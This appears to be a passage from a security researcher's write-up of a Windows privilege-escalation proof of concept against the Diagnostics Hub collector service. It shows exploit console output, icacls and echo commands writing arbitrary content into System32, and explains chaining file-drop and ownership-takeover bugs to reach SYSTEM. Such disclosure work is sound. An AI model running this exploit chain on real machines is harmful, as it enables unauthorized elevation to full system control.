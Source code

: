 ```
Got the collector service reference
Scratch path: c:\111\workdir\diaghub-acl-takeover-poc\Etw
Creating a new session with guid: dacc1e2d-8935-48ee-b65e-067c51f9e2f2
Session created
Loading agent: e485d7a9-c21b-4903-892e-303c10906f6e -> DiagnosticsHub.StandardCollector.Runtime.dll
Session DACC1E2D-8935-48EE-B65E-067C51F9E2F2: {dacc1e2d-8935-48ee-b65e-067c51f9e2f2}
  Running
Monitoring file to show up: c:\111\workdir\diaghub-acl-takeover-poc\etw\Report.DACC1E2D-8935-48EE-B65E-067C51F9E2F2\lock
Executing the report generation process
Exeucuting command: VSDiagnostics.exe stop DACC1E2D-8935-48EE-B65E-067C51F9E2F2 /output:-

Microsoft (R) VS Standard Collector

Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
lock file has shown up, c:\111\workdir\diaghub-acl-takeover-poc\Etw replaced to c:\111\workdir\diaghub-acl-takeover-poc\ETW
Stop returned with: c:\111\workdir\diaghub-acl-takeover-poc\Etw\Report.DACC1E2D-8935-48EE-B65E-067C51F9E2F2
Session DACC1E2D-8935-48EE-B65E-067C51F9E2F2: {dacc1e2d-8935-48ee-b65e-067c51f9e2f2}
  Stopped
Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
Done! Run:
icacls c:\Windows\system32\dropped.dll

C:\111\bin>icacls c:\Windows\system32\dropped.dll
c:\Windows\system32\dropped.dll BUILTIN\Administrators:(F)
                                NT AUTHORITY\SYSTEM:(F)
                                windows-10-dev-\unprivileged:(M,DC)
                                NT AUTHORITY\SYSTEM:(I)(F)
                                BUILTIN\Administrators:(I)(F)
                                BUILTIN\Users:(I)(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files


C:\111\bin>echo arbitrary content > c:\Windows\system32\dropped.dll

C:\111\bin>type c:\Windows\system32\dropped.dll
arbitrary content
```

## Combining the pieces of the puzzle to elevate privileges

At this point we have got a primitive to drop files to a destination directory, we have control over the file name but not its content (vuln #2).
We can also take over ownership of existing files (vuln #3). Combining these two gives us control over the content as well, which is usually powerful
enough to elevate privileges to `NT_AUTHORITY\SYSTEM`. (Things are nowadays more complicated due to TrustedInstaller owning pretty much everything that
belongs to the operating system.)

